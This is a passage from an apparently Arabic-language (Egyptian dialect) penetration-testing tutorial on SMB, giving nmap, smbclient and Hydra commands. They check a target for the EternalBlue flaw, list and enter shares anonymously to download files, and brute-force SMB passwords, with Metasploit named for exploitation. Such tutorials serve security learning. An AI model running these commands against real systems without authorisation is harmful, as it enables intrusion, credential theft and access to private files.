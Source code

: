 ### ✅ **لو SMBv1 موجود، نشوف إذا كان مصاب بـ EternalBlue**

```bash
nmap --script=smb-vuln-ms17-010 -p 445 target.com
```

🔹 لو طلع مصاب، ممكن نستخدم **Metasploit** لاختراقه.

🟢 **الخلاصة بالعامية المصرية:**  
هنشوف إصدار SMB ولو كان قديم، ممكن يكون فيه ثغرات نقدر نستغلها.

---

# **📂 4. استكشاف الملفات المشتركة (SMB Shares Enumeration)**

🔹 بعض السيرفرات بتكون فيها **مجلدات وملفات مشتركة بدون باسورد**!

### ✅ **نستخدم smbclient لاستعراض الملفات المشتركة**

```bash
smbclient -L //target.com
```

🔹 لو فيه مشاركة مفتوحة، نجرب ندخل بدون باسورد:

```bash
smbclient //target.com/sharename -U anonymous
```

🔹 لو دخلنا، نستخدم الأوامر دي:

```bash
ls   # استعراض الملفات
cd foldername  # دخول مجلد معين
get file.txt  # تحميل ملف
```

🟢 **الخلاصة بالعامية المصرية:**  
هنشوف لو في ملفات مشتركة ممكن ندخل عليها، ولو مفيش باسورد، ممكن نلاقي بيانات حساسة.

---

# **🔑 5. تجربة كسر كلمات المرور (Brute Force Attack)**

لو عندنا أسماء مستخدمين، ممكن نحاول **نخمن الباسورد** وندخل.

### ✅ **استخدام Hydra لتخمين كلمات المرور**

```bash
hydra -L users.txt -P passwords.txt smb://target.com
```

🔹 `users.txt` فيها أسماء المستخدمين، و`passwords.txt` فيها كلمات المرور اللي هنحاولها.

🟢 **الخلاصة بالعامية المصرية:**  
لو السيرفر مش مأمن كويس، ممكن نخمن الباسورد وندخل على الملفات المشتركة!

---